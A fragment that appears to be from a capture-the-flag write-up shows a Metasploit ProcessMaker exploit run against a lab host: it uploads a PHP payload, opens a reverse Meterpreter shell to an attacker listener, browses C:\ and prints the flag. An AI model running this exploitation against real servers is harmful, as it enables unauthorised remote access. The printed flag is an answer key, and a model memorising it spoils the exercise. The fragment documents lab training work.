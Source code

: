 ```


msf5 exploit(multi/http/processmaker_exec) > set RHOSTS 10.0.24.188
RHOSTS => 10.0.24.188
```

```
msf5 exploit(multi/http/processmaker_exec) > exploit

[*] Started reverse TCP handler on 10.10.21.4:4444 
[*] Authenticating as user 'admin'
[+] Authenticated as user 'admin'
[*] Sending payload 'p9ASMadGHFa2rWFW5W.php' (1514 bytes)
[+] Payload sent successfully
[*] Retrieving file 'p9ASMadGHFa2rWFW5W.php'
[*] Sending stage (38288 bytes) to 10.0.24.188
[*] Meterpreter session 1 opened (10.10.21.4:4444 -> 10.0.24.188:49401) at 2023-04-22 21:00:42 +0530
[+] Deleted p9ASMadGHFa2rWFW5W.php

meterpreter > pwd
C:\Users\Administrator\AppData\Roaming\ProcessMaker-2_5_0\processmaker\workflow\public_html
meterpreter > cd /
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-09-10 15:20:33 +0530  $Recycle.Bin
100666/rw-rw-rw-  1       fil   2013-06-18 17:48:29 +0530  BOOTNXT
40777/rwxrwxrwx   0       dir   2013-08-22 20:18:41 +0530  Documents and Settings
40777/rwxrwxrwx   0       dir   2013-08-22 21:22:33 +0530  PerfLogs
40555/r-xr-xr-x   4096    dir   2020-08-12 09:43:47 +0530  Program Files
40777/rwxrwxrwx   4096    dir   2020-09-15 19:29:49 +0530  Program Files (x86)
40777/rwxrwxrwx   4096    dir   2020-09-05 14:35:45 +0530  ProgramData
40777/rwxrwxrwx   0       dir   2020-09-05 09:16:57 +0530  System Volume Information
40555/r-xr-xr-x   4096    dir   2020-09-10 15:20:27 +0530  Users
40777/rwxrwxrwx   24576   dir   2020-09-10 14:40:34 +0530  Windows
100444/r--r--r--  398356  fil   2014-03-18 15:35:18 +0530  bootmgr
100666/rw-rw-rw-  32      fil   2020-09-15 19:26:18 +0530  flag.txt
100666/rw-rw-rw-  0       fil   2023-04-22 20:27:41 +0530  pagefile.sys

meterpreter > cat flag.txt
a3dcb4d229de6fde0db5686dee47145d
```